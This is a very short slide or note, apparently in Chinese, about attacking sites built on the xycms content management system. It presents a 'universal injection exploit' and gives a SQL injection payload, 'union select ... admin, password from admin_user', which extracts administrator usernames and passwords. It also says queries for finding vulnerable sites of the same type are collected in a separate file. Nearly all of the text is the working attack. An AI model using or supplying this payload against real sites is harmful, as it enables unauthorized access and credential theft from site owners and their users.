

# Exp构造 同类型站点的查询语句  0d.txt里面全部都是
xycms
通杀注入exp
union select 1,admin,3,4,password,6,7 from admin_user